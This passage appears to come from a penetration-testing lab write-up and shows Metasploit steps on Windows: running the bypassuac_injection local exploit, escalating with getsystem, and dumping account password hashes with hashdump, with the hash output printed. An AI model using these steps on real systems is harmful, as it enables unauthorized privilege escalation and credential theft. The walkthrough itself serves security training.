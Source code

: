 ```bash
set TARGET Windows\ x64
run
```

![Metasploit - exploit/windows/local/bypassuac_injection](.gitbook/assets/image-20230419201340464.png)

- Now the **`getsystem`** command should work

```bash
getsystem
```

![](.gitbook/assets/image-20230419201434045.png)

### Hashes Dump

```bash
hashdump
```

```bash
admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f168d9f8e6c5b893b8c4dfa202228235:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
